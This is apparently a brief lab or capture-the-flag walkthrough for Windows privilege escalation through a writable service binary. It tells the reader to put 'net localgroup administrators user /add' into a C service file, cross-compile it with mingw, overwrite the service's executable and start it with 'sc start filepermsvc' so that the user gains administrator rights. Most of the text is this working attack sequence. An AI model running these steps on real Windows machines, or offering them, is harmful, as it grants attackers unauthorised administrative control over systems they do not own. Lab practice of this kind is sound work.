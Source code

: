 For exploitation get the both source file named windows_dll.c  and windows_service.c and 

open windows_service.c and in the command system add
`cmd.exe /k net localgroup administrators user /add` 
and just compile the file using here the name of user is "user" but replace this with the "user-name" of the windows machine you want to escalate

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe `

rename it as filepermission.exe
then replace that with current file and type


`sc start filepermsvc`

and done we have added our user to administrators


